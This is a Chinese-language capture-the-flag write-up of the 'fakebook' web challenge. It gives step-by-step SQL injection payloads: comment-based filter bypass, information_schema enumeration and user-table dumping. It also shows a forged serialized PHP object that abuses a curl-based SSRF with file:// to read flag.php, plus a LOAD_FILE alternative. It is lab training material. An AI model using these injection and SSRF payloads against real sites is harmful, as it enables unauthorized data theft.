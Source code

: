 ### fakebook-adworld

![image-20240920181506458](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240920181506458.png)

首先有一个添加功能，可以添加，猜测可以用ssrf？做不了提示错误

![image-20240920181220729](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240920181220729.png)

进行目录爆破，发现view文件，wget下来

```php
<!doctype html>
<html lang="ko">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>User</title>

    <link rel="stylesheet" href="css/bootstrap.min.css" crossorigin="anonymous">
<script src="js/jquery-3.3.1.slim.min.js" crossorigin="anonymous"></script>
<script src="js/popper.min.js" crossorigin="anonymous"></script>
<script src="js/bootstrap.min.js" crossorigin="anonymous"></script>
</head>
<body>
<br />
<b>Notice</b>:  Undefined index: no in <b>/var/www/html/view.php</b> on line <b>24</b><br />
<p>[*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1)</p><br />
<b>Fatal error</b>:  Call to a member function fetch_assoc() on boolean in <b>/var/www/html/db.php</b> on line <b>66</b><br />

```

![image-20240920155830544](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240920155830544.png)

可以看到使用的mariadb数据库，这是一个数值注入

首先看有几列。枚举

```
1 order by 5 --出现报错
```

可以发现有四列查询

尝试构造 union select，发现被过滤

尝试加`/*`的内联注入绕过

```
-1/**/union/**/select/**/1,2,3,version() -- 
```

通过观察看到是2行的显示，更换

```
http://61.147.171.105:51108/view.php?no=-1/**/union/**/select/**/1,version(),3,4%20--
```

![image-20240920163803368](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240920163803368.png)

进行表名查找

```
union/**/ select 1,table_name,3,4 from INFORMATION_SCHEMA.tables -- 
```

![image-20240920164810662](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240920164810662.png)

```
union/**/select/**/1,column.name,3,4 from INFORMATION_SCHEMA.columns
where TABLE_SCHEMA=database() and TABLE_NAME='users' -- 
```

![image-20240920165218823](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240920165218823.png)

加上group_concat

```
union/**/select/**/1,group_concat(column_name),3,4 from INFORMATION_SCHEMA.columns
where TABLE_SCHEMA=database() and TABLE_NAME='users' -- 
```

![image-20240920170049674](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240920170049674.png)

```
并且这里no是没有信息的，构造
union/**/select/**/1,concat(username,"/",passwd,"/",data),3,4 from users -- 
```

爆破得到数据

```
hansi/*/cf83e1357eefb8bdf1542850d66d8007d620e4050b5715dc83f4a921d36ce9ce47d0d13c5d85f2b0ff8318d2877eec2f63b931bd47417a81a538327af927da3e/*/O:8:"UserInfo":3:{s:4:"name";s:5:"hansi";s:3:"age";i:123;s:4:"blog";s:7:"111.com";}
```

这发现就是我第一次注册的数据，也没有什么用啊，继续看爆破出的其他接口

login.php

```php
<!doctype html>
<html lang=ko>
<head>
    <meta charset=UTF-8>
    <meta name=viewport
          content=width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0>
    <meta http-equiv=X-UA-Compatible content=ie=edge>
    <title>login</title>

    <link rel="stylesheet" href="css/bootstrap.min.css" crossorigin="anonymous">
<script src="js/jquery-3.3.1.slim.min.js" crossorigin="anonymous"></script>
<script src="js/popper.min.js" crossorigin="anonymous"></script>
<script src="js/bootstrap.min.js" crossorigin="anonymous"></script>

</head>
<body>

<div class=container>
    <h1>login page</h1>
    <form action=login.ok.php method=post class=form-group>
        <div class=row>
            <div class=col-md-1>
                username
            </div>
            <div class=col-md-4>
                <input type=text name=username class=form-control>
            </div>
        </div>
        <div class=row>
            <div class=col-md-1>
                passwd
            </div>
            <div class=col-md-4>
                <input type=password name=passwd class=form-control>
            </div>
        </div>
        <div class=row>
            <input type=submit value=login class=btn btn-info>
        </div>
    </form>
</div>
</body>
</html>

```

没啥信息，可以访问login.php，难道要爆这个？也没有信息啊

继续看别的目录吧，有一个robots，里面有个文件/user.php.bak，下载

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}     
```

最后一个过滤也让我们明白为什么最开始ssrf不能通过。在这里发现blog可以使用ssrf，不在前端创建用户时候进行ssrf，而是在数据库构造出ssrf并且这个值应该放在第四个，no，username，passwd，data中的data

先尝试插入

```
union INSERT INTO user (no, username, passwd, data) VALUES (1, 2, 3, 'O:8:"UserInfo":3：{s:4:"name";s:3:"mfd";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}') -- 

```

做不到，再次构造联合查询

```
union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:3:"mfd";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' --  
```

发现成功上传

![image-20240920180153041](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240920180153041.png)

另解：

`LOAD_FILE` 是 MySQL 和 MariaDB 中的一个内置函数，用于从文件系统中读取文件内容并返回其内容作为字符串

可以直接构造

```
union/**/select/**/1,LOAD_FILE('/var/www/html/flag.php'),3,4 -- 
```

成功找到